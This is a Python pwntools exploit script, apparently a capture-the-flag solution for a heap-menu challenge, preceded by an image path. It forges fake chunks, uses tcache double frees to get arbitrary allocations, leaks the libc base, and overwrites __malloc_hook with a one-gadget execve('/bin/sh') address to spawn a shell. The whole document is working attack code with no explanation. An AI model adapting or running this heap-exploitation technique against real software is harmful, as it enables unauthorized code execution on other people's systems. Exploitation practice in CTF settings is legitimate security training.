 ```python
chunk_size = 0x90

chunk1 = flat(0, 0x11)
chunk1 = chunk1.ljust(0x10, '\x00')
chunk2 = flat(0, chunk_size+1)
chunk2 = chunk2.ljust(chunk_size, '\x00')
chunk3 = flat(0, 0x11)
chunk3 = chunk3.ljust(0x10, '\x00')
# name = chunk1 + chunk2
name = chunk1 + chunk2 + chunk3 + flat(0, 0x11)
name = name[8:]
ret_addr = 0x00400c0c

sh.sendlineafter('> ', name)

# change chunk to name
alloc(chunk_size-0x10, p64(chunk_addr+0x10))
free()
free()
alloc(chunk_size-0x10, p64(chunk_addr+0x10))
alloc(chunk_size-0x10, 'abcde')
alloc(chunk_size-0x10, 'thisgoestoname')
free()

# remove null bytes
alloc(0x100, p64(name_addr))
free()
free()
alloc(0x100, p64(name_addr))
alloc(0x100, 'abcde')
alloc(0x100, 'a'*(8*3-1))

# get leak
libc_base =u64(sh.recvuntil('! rob needs your help composing an aria')[24:24+6].ljust(8,'\x00'))-0x3ebd20
print 'libc_base: {}'.format(hex(libc_base))

# override printf
# 0x4f2c5 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   rcx == NULL

# 0x4f322 execve("/bin/sh", rsp+0x40, environ)
# constraints:
#   [rsp+0x40] == NULL

# 0x10a38c execve("/bin/sh", rsp+0x70, environ)
# constraints:
#   [rsp+0x70] == NULL

win_addr = libc_base + 0x4f322
malloc_hook = libc_base + 0x3ebc30
print 'win_addr: {}'.format(hex(win_addr))
print 'malloc_hook: {}'.format(hex(malloc_hook))
alloc(0x120, p64(malloc_hook))
free()
free()
alloc(0x120, p64(malloc_hook))
alloc(0x120, 'abcde')
alloc(0x120, p64(win_addr))

# profit
sh.sendlineafter('> ', '1')
```